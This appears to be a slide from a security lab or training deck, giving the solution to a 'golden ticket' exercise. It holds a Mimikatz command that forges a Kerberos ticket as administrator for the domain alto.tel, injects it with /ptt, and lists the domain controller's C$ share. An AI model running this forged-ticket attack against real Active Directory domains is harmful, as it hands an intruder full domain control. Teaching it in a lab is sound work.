

# SOLUTION GOLDEN TICKET
Golden ticket:

m i m i k a t z . e x e

k e r b e r o s : : g o l d e n  / d o m a i n : a l t o . t e l  / s i d : [ D o m a i n  s i d ]  / a e s 2 5 6 : [ k r b t g t  a e s 2 5 6  h a s h ]
/ u s e r : a d m i n i s t r a t o r	/ g r o u p s : 5 1 2  / p t t

D i r	\ \ dc - 0 1 . a l t o . t e l \ c$
206